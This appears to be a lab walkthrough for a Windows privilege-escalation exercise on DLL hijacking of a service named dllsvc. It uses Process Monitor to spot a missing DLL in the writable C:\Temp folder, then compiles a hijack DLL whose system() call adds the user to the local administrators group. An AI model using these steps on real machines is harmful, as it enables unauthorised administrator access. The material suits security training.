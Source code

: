 ## Service Escalation - DLL Hijacking

Detection

Windows VM

1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.
4. In the input box on the same line type: dllhijackservice.exe
5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: NAME NOT FOUND
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
9. Open command prompt and type: sc start dllsvc
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

Exploitation

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.

Kali VM

1. Open windows_dll.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
3. Copy the generated file hijackme.dll, to the Windows VM.

Windows VM

1. Place hijackme.dll in ‘C:\Temp’.
2. Open command prompt and type: sc stop dllsvc & sc start dllsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators